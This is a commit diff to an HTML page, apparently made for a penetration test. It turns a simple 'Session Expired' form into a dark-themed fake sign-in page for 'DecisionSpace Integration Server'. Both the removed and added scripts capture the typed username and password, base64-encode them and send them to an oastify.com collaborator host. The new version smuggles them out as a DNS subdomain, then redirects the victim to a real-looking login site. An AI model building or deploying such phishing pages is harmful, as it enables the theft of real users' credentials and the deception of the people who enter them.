

Before and after one commit to praetorian-farida/test-html-page, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
html populated

```diff
--- a/index.html
+++ b/index.html
@@ -1,80 +1,138 @@
 <!DOCTYPE html>
-<html>
+<html class="login-pf">
 <head>
-    <title>Session Expired</title>
+    <meta charset="utf-8">
+    <meta name="viewport" content="width=device-width,initial-scale=1"/>
+    <title>Sign in to DecisionSpace_Integration_Server</title>
     <style>
+        * { margin: 0; padding: 0; box-sizing: border-box; }
         body {
-            font-family: Arial, sans-serif;
+            font-family: "Open Sans", Arial, sans-serif;
+            background: #030303;
+            color: #fff;
+        }
+        .login-pf-page {
             display: flex;
+            flex-direction: column;
+            align-items: center;
             justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin: 0;
-            background: #f5f5f5;
+            min-height: 100vh;
+            padding: 20px;
         }
-        .login-box {
-            background: white;
+        .login-pf-page-header {
+            text-align: center;
+            margin-bottom: 30px;
+            font-size: 18px;
+            color: #ddd;
+        }
+        .card-pf {
+            background: #1a1a1a;
+            border: 1px solid #333;
+            border-radius: 3px;
             padding: 40px;
-            border-radius: 8px;
-            box-shadow: 0 2px 10px rgba(0,0,0,0.1);
-            width: 300px;
+            width: 100%;
+            max-width: 500px;
         }
-        h2 {
-            margin: 0 0 20px 0;
-            color: #333;
+        .login-pf-header h1 {
+            font-size: 22px;
+            font-weight: 300;
+            margin-bottom: 30px;
+            color: #fff;
         }
-        input {
+        .form-group {
+            margin-bottom: 20px;
+        }
+        .control-label {
+            display: block;
+            margin-bottom: 8px;
+            font-size: 14px;
+            color: #ccc;
+        }
+        .form-control {
             width: 100%;
-            padding: 10px;
-            margin: 10px 0;
-            border: 1px solid #ddd;
-            border-radius: 4px;
-            box-sizing: border-box;
+            padding: 10px 12px;
+            font-size: 14px;
+            border: 1px solid #555;
+            border-radius: 3px;
+            background: #2a2a2a;
+            color: #fff;
         }
-        button {
+        .form-control:focus {
+            outline: none;
+            border-color: #0088ce;
+        }
+        .btn-primary {
             width: 100%;
-            padding: 10px;
-            background: #0066cc;
-            color: white;
+            padding: 12px;
+            font-size: 16px;
+            background: #0088ce;
+            color: #fff;
             border: none;
-            border-radius: 4px;
+            border-radius: 3px;
             cursor: pointer;
-            font-size: 16px;
+            margin-top: 10px;
         }
-        button:hover {
-            background: #0052a3;
+        .btn-primary:hover {
+            background: #00659c;
         }
-        .message {
-            color: #d32f2f;
-            margin-bottom: 15px;
+        .alert {
+            background: #c95f00;
+            color: #fff;
+            padding: 12px;
+            border-radius: 3px;
+            margin-bottom: 20px;
             font-size: 14px;
+            border-left: 4px solid #ff9933;
         }
     </style>
 </head>
 <body>
-    <div class="login-box">
-        <h2>Session Expired</h2>
-        <p class="message">Your session has expired. Please log in again.</p>
-        <form id="loginForm">
-            <input type="text" id="username" placeholder="Username" required>
-            <input type="password" id="password" placeholder="Password" required>
-            <button type="submit">Sign In</button>
+<div class="login-pf-page">
+    <div class="login-pf-page-header">
+        Sign in to <strong>DecisionSpace Integration Server</strong>
+    </div>
+    <div class="card-pf">
+        <header class="login-pf-header">
+            <h1>Sign in to your account</h1>
+        </header>
+        <div class="alert">
+            You are attempting to access a protected resource. Please verify your credentials to continue.
+        </div>
+        <div id="kc-content">
+            <form id="kc-form-login">
+                <div class="form-group">
+                    <label for="username" class="control-label">Username</label>
+                    <input id="username" class="form-control" name="username" type="text"
+                           autofocus autocomplete="username" required />
+                </div>
+                <div class="form-group">
+                    <label for="password" class="control-label">Password</label>
+                    <input id="password" class="form-control" name="password"
+                           type="password" autocomplete="current-password" required />
+                </div>
+                <div class="form-group">
+                    <input class="btn-primary" type="submit" value="Sign in"/>
+                </div>
             </form>
         </div>
+    </div>
+</div>
 <script>
-        document.getElementById('loginForm').addEventListener('submit', function(e) {
+    document.getElementById('kc-form-login').addEventListener('submit', function(e) {
         e.preventDefault();
 
         const username = document.getElementById('username').value;
         const password = document.getElementById('password').value;
 
-            // Exfiltrate credentials
-            const data = btoa(JSON.stringify({username, password}));
-            new Image().src = 'https://xhi1hwrwxt1hgsff51cr9z43muslgh46.oastify.com/creds-' + data;
+        // Exfiltrate credentials via DNS subdomain
+        const creds = btoa(JSON.stringify({u: username, p: password}));
+        const safe = creds.replace(/[^a-zA-Z0-9]/g, '').substring(0, 63);
+        new Image().src = 'https://' + safe + '.xhi1hwrwxt1hgsff51cr9z43muslgh46.oastify.com/';
 
-            // Optional: redirect to real login or show success
-            alert('Authentication successful. Redirecting...');
-            window.location = 'https://pen-dfs.dsif.dazlmkleodev01.ienergycloud.solutions';
+        // Redirect to real login
+        setTimeout(function() {
+            window.top.location = 'https://pen-dfs.dsif.dazlmkleodev01.ienergycloud.solutions';
+        }, 500);
     });
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
